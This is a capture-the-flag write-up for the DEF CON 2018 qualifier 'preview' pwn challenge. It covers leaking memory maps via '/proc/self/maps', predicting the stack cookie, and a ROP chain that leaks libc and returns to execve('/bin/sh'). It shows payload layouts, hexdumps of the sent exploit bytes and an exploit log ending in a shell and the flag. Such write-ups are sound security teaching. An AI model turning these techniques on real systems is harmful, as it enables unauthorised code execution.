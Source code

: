 # Preview

Category: Pwn

In this challenge, are given a [binary](./preview/preview) `preview` and the corresponding [libc](./preview/libc.so.6). So at least it isn't blind this time around.

We open it up in IDA, and we notice that there's some funky `mmap`-ing going on, and it jumps to the `mmap`ed region.

In GDB, we notice that the actual functionality of the program we observe over nc doesn't happen inside the code segment of the `preview` binary, so we deduce that it must be manually mapping a stage2 for the actual chal functionality.

To take care of that, we can use the `vmmap` command in pwndbg and do a memory dump of the mapped segments to get a [binary](./preview/a) for the real code.

There's a pretty obvious stack overflow for reading the command from the user, where the buffer is only 88 bytes big, but the read is 256 bytes in `process_command`.

We don't know the location that our stage2 is manual mapped at, but luckily on the remote server (and locally) we can do `HEAD /proc/self/maps` to leak it. That bypasses ASLR.

At this point, we were stuck for a long time because of the stack cookie.
However, after some experimentation and staring at `vmmap` in pwndbg, we noticed that the stack cookie is equal to `(base of ld.so << 24) | (base of stage2 >> 4)`!

So now, it's quite trivial to write a ROPchain to leak libc and ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 pop rdi; ret gadget
+0x68 puts@got - value used to leak libc
+0x70 puts@plt - return address from previous gadget
+0x78 main - return address from puts@plt ; stage2 of exploit
```

At this point we have leaked libc and we are back in main safe and sound, which means we can just do the overflow once more to ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 execve(/bin/sh) in libc
```

Output:
```
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Trying 52.52.107.212
[+] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Done
Solving challenge: "ivNoWSyZYl", n: 22
[x] Starting local process './fastpow'
[+] Starting local process './fastpow': pid 32272
Solution: 849294 -> e91045e7af51404a3a6343074f021b15c32a7087ffa867fcb3942f36f9400000
[DEBUG] Sent 0x15 bytes:
    'HEAD /proc/self/maps\n'
[DEBUG] Received 0x16 bytes:
    'Welcome to preview 0.1'
[DEBUG] Received 0x1cc bytes:
    '\n'
    'Standing by for your requests\n'
    "Here's your preview:\n"
    'b41006a000-b410090000 r-xp 00000000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b41028f000-b410290000 r--p 00025000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410290000-b410291000 rw-p 00026000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410291000-b410292000 rw-p 00000000 00:00 0 \n'
    'fc9b47d000-fc9b47f000 r-xp 00000000 00:00 0 \n'
stack cookie = b41006afc9b47d00
break *0xfc9b47dfd6
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  b3 e0 47 9b  fc 00 00 00  │····│····│··G·│····│
    00000070  20 f0 67 9b  fc 00 00 00  e0 d9 47 9b  fc 00 00 00  │ ·g·│····│··G·│····│
    00000080  e8 df 47 9b  fc 00 00 00  00 00 00 00  00 00 00 00  │··G·│····│····│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x5a bytes:
    'fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 \n'
    'fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 \n'
[DEBUG] Received 0x4f bytes:
    00000000  52 65 73 6f  75 72 63 65  20 6e 6f 74  20 66 6f 75  │Reso│urce│ not│ fou│
    00000010  6e 64 0a 90  96 f3 9c 4b  7f 0a 57 65  6c 63 6f 6d  │nd··│···K│··We│lcom│
    00000020  65 20 74 6f  20 70 72 65  76 69 65 77  20 30 2e 31  │e to│ pre│view│ 0.1│
    00000030  0a 53 74 61  6e 64 69 6e  67 20 62 79  20 66 6f 72  │·Sta│ndin│g by│ for│
    00000040  20 79 6f 75  72 20 72 65  71 75 65 73  74 73 0a     │ you│r re│ques│ts·│
    0000004f
fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 
fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 
Resource not found

puts@got = 00007f4b9cf39690
[DEBUG] PLT 0x1f7f0 realloc
[DEBUG] PLT 0x1f800 __tls_get_addr
[DEBUG] PLT 0x1f820 memalign
[DEBUG] PLT 0x1f850 _dl_find_dso_for_object
[DEBUG] PLT 0x1f870 calloc
[DEBUG] PLT 0x1f8a0 malloc
[DEBUG] PLT 0x1f8a8 free
[*] '/home/user/ctf/defcon/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc = 00007f4b9ceca000
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  16 f2 f0 9c  4b 7f 00 00  │····│····│····│K···│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x12 bytes:
    'Resource not found'
[DEBUG] Received 0x1 bytes:
    '\n'

Welcome to preview 0.1
Standing by for your requests
Resource not found

[*] Switching to interactive mode
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    's' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x5 bytes:
    'flag\n'
flag
[DEBUG] Sent 0x1 bytes:
    'c' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    't' * 0x1
[DEBUG] Sent 0x1 bytes:
    ' ' * 0x1
[DEBUG] Sent 0x1 bytes:
    'f' * 0x1
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    'g' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x44 bytes:
    'OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}\n'
OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}
[*] Process './fastpow' stopped with exit code 0 (pid 32272)
[*] Closed connection to cee810fa.quals2018.oooverflow.io port 31337
```

[Final exploit script](./preview/preview.py)
